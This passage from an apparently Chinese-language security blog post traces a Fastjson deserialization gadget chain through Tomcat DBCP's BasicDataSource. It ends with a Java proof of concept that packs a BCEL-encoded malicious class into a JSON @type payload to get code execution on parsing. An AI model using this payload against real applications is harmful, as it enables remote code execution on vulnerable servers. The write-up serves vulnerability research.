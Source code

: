 继续往上找调用：再往上一步就发现有一个getter方法调用了createDataSource

![image-20240402112323814](/blog_img/image-20240402112323814.png)

至此整条链条也就走通了，不难构建出POC

```java
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;

import java.io.IOException;

public class Main {
    public static void main(String[] args) throws IOException {
        String s = "{\"@type\":\"org.apache.tomcat.dbcp.dbcp2.BasicDataSource\",\"driverClassName\":\"%s\",\"driverClassLoader\":{\"@type\":\"com.sun.org.apache.bcel.internal.util.ClassLoader\"}}";
        JSONObject obj = JSON.parseObject(String.format(s,encode()));

    }

    public static String encode() throws IOException {
        JavaClass cls = Repository.lookupClass(Evil.class);
        return "$$BCEL$$"+ Utility.encode(cls.getBytes(), true);
    }
}
```
